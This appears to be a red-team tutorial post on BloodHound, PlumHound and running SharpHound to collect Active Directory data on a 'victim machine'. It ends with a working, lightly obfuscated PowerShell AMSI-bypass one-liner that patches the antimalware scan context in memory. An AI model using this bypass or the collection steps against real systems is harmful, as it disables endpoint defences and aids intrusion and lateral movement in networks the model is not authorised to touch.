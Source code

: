 # License

[](https://github.com/PlumHound/PlumHound#license)

[GNU GPL3](https://github.com/DefensiveOrigins/PlumHound/blob/master/LICENSE)

# Additional Inclusions:

[](https://github.com/PlumHound/PlumHound#additional-inclusions)

- table-sort-js [https://github.com/LeeWannacott/table-sort-js](https://github.com/LeeWannacott/table-sort-js) provides sorting for HTML reports (in templates/head.html).

**Credit:** This information was adapted from an excellent guide on [GitHub](https://github.com/PlumHound/PlumHound). Be sure to check out the original post for more details.

# BloodHound + PlumHound = ❤

BloodHound is a graphical tool both attackers and defenders use to reveal secrets and hidden relationships within an Active Directory environment. In this case, though BloodHound is used for identifying and eliminating attack paths for Blue Teams, it is also used by Red Teams and malicious APT groups to discover hidden tracks for lateral movement in an Active Directory domain.

# 1. SharpHound

In order to graph data via BloodHound, SharpHound should be executed on the victim machine for data collection regarding the information in an Active Directory domain. SharpHound is the official data collector for BloodHound and can be found as both in PowerShell script and C# (compiled to .exe).

Without any flags given to SharpHound, the information below can be collected into a zip file:

- Security group memberships
- Domain trusts
- Abusable rights on Active Directory objects
- Group Policy links
- OU tree structure
- Several properties from computer, group and user objects
- SQL admin links
- The members of the local administrators, remote desktop, distributed COM, and remote management groups
- Active sessions, which SharpHound will attempt to correlate to systems where users are interactively logged on

More information can be found in the official document site of BloodHound: [https://bloodhound.readthedocs.io/](https://bloodhound.readthedocs.io/)

P.S. Firstly, some AMSI-Bypass won’t hurt if these below don’t work. Check out [https://amsi.fail/](https://amsi.fail/) and my teammate F’s fav (Hey [ZemarKhos](https://github.com/ZemarKhos) 🙌):

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};$d=$c.GetFields(‘NonPublic,Static’);Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
